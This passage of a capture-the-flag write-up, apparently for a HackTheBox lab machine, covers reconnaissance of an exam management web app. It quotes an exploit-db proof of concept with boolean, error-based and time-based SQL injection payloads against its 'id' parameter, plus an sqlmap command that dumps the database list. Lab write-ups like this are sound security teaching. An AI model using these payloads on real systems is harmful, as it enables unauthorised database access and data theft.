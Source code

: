![exam_webapge](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/exam_sub.png?raw=true)

The web site seems hosting a exam Management System.

Clicking the admin href link direct us to `/admin/login.php` so it may be a php webpage.

the `Exams` href seems interesting also `/?p=exams` we may should inject some payloads here.

Well, if we search for `Exam Reviewer Management` on [exploit-db](https://www.exploit-db.com/) we'll end up with two cool results:

![exploit_db_search](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/exploit_db_search.png?raw=true)

I'll start with the sqli/50725 one

### POC:

```

Parameter: id (GET)

Type: boolean-based blind

Title: AND boolean-based blind - WHERE or HAVING clause

Payload: p=take_exam&id=1' AND 4755=4755 AND 'VHNu'='VHNu



Type: error-based

Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY
clause (FLOOR)

Payload: p=take_exam&id=1' OR (SELECT 8795 FROM(SELECT
COUNT(*),CONCAT(0x71766a7071,(SELECT
(ELT(8795=8795,1))),0x7162716b71,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'MCXA'='MCXA



Type: time-based blind

Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)

Payload: p=take_exam&id=1' AND (SELECT 2206 FROM (SELECT(SLEEP(5)))AhEo)
AND 'vqGg'='vqGg---



*SQLMAP COMMAND*



*# sqlmap -u "127.0.0.1/erms/?p=take_exam&id=1
<http://127.0.0.1/erms/?p=take_exam&id=1>" -p id --dbs --level 3*
```
